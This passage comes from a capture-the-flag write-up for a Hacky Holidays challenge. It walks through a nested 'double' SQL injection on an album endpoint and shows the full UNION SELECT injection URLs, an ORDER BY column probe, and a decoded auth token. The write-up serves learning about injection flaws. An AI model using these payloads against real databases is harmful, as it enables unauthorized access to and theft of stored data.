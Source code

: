 There's also an API hosted at https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api 

{F1133182}

### Step 3: SQL Injection #2 - state of the union of the union

Around this time, I started to reach out to other CTFers on discord to brainstorm how to do this challenge. A small team formed and @mava contributed an amazing idea: *double SQL injection. *

I started to imagine what the underlying SQL query(s) looked like for the /album endpoint. There were two tables and the ID had to come from the hash in the first table. 

Query #1
```sql
SELECT id FROM album WHERE hash = 'jdh34k '
```
Value from query #1 is sent to query #2
```sql
SELECT photo FROM photo where album_id = '1'
```
Looking at these two queries... it seemed possible that you could `UNION` something to the output of query #1 that would be injected into query #2. 

I was able to craft the following initial SQLi payload that shows you can control the value sent to the second query with a `UNION`


- First album: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=1%27%20UNION%20SELECT%20%221%22,%22456%22,%22789%22%20--+
- Second album: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=1%27%20UNION%20SELECT%20%222%22,%22456%22,%22789%22%20--+
- Third album: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=1%27%20UNION%20SELECT%20%223%22,%22456%22,%22789%22%20--+

If we can nestle a payload into the first union slot, we should be able to execute a SQLi inside a SQLi. I started with an ORDER BY to determine there were three columns, which makes sense based on the DB dump performed earlier. 

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=1%27%20UNION%20SELECT%20%221%27%20ORDER%20BY%203--+%22,%22456%22,%22789%22%20--+
`1' UNION SELECT "1' ORDER BY 3-- ","456","789" -- `


Now we can perform the second `UNION`:

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=1%27%20UNION%20SELECT%20%22%27%20UNION%20SELECT%201,2,3%27--+%22,%22456%22,%22789%22--+
`1' UNION SELECT "' UNION SELECT 1,2,3'-- ","456","789"-- `

which produces this URL:

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzMiLCJhdXRoIjoiZmVhNzUwNzQ3OGFhODIyNWMwMjI1MjdiMTc2M2ZiMzMifQ==

which (doesnt return an invalid hash error!! and) decodes to 

```json
{"image":"r3c0n_server_4fdk59\/uploads\/3","auth":"fea7507478aa8225c022527b1763fb33"}
```
